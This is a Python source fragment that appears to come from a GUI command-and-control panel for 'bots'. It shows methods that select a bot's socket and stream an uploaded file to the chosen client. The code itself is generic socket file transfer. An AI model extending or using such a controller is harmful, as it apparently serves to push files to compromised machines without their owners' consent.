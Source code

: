     # Helper: get the socket of the selected bot
    def get_selected_socket(self):
        if not self.selected_bot or self.selected_bot not in self.bots:
            messagebox.showerror("No Bot Selected", "Please select a bot first.")
            return None
        return self.bots[self.selected_bot][0]

    # Decorator to ensure a bot is selected before running a command
    def require_bot(func):
        def wrapper(self, *args, **kwargs):
            if not self.selected_bot or self.selected_bot not in self.bots:
                messagebox.showerror("No Bot Selected", "Please select a bot first.")
                return
            return func(self, *args, **kwargs)
        return wrapper

    # Upload file to client
    @require_bot
    def upload_file(self):
        file_path = filedialog.askopenfilename()
        if not file_path:
            return
        filename = os.path.basename(file_path)
        self.log_command("upload", f"Uploading {filename} to {self.selected_bot} ...")
        threading.Thread(target=self.upload_file_thread, args=(file_path, filename), daemon=True).start()

    def upload_file_thread(self, file_path, filename):
        try:
            client_socket = self.get_selected_socket()
            if not client_socket: return
            client_socket.sendall(f"upload {filename}".encode())
            ack = client_socket.recv(1024).decode(errors="ignore")
            if ack == "READY":
                with open(file_path, "rb") as f:
                    while True:
                        chunk = f.read(CHUNK_SIZE)
                        if not chunk:
                            break
                        client_socket.sendall(chunk)
                client_socket.sendall(EOF_MARKER.encode())
                status = client_socket.recv(1024).decode(errors="ignore")
                self.log_command("upload", f"[+] {status.strip()}")
            else:
                self.log_command("upload", "[!] Client not ready for upload.")
        except Exception as e:
            self.log_command("upload", f"[!] Upload error: {e}")
